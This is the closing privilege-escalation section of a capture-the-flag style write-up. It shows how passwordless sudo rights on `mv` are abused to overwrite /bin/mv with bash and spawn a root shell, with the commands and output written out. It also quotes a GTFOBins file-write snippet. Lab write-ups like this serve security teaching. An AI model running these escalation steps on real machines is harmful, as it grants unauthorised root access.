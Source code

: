 ## Privilige Escalation ##
We can see we have sudo permissions to run `mv` without a password! We can use this to do our privilige escalation! We can move `/bin/bash` as `/bin/mv` and we can interact with bash under the name of `/bin/mv`. We can use the `-p` flag to get a root shell!
```
$ sudo mv /bin/bash /bin/mv
$ sudo /bin/mv -p
whoami
root
```
You can refer to the GTFOBins at `https://gtfobins.github.io/gtfobins/mv/#suid` which also shows a method to get root access to the machine. Here is the code that it suggests which basically does the same thing that we did above. It writes data to a file, which gets executed with root priviliges:
```

    LFILE=file_to_write
    TF=$(mktemp)
    echo "DATA" > $TF
    sudo mv $TF $LFILE

```

Thank you for reading this writeup! I hope you enjoyed, and see you later. If you have any questions you can contact me on twitter or github. Thanks again for sticking around, have fun!
